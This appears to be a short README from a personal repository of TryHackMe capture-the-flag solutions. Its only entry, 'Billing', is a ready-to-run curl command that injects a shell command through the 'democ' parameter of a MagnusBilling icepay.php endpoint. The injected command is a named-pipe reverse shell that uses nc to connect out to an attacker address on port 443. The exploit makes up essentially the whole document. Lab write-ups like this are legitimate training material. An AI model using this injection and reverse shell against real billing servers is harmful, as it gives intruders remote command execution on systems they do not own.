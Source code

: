 # TryHackMe
My solutions to try hack me tasks

## 1. Billing
Injection in GET request with reverse shell command to obtain a shell
```bash
$ curl -s 'http://10.10.160.86/mbilling/lib/icepay/icepay.php' --get --data-urlencode 'democ=;rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.8.64.79 443 >/tmp/f;'
```
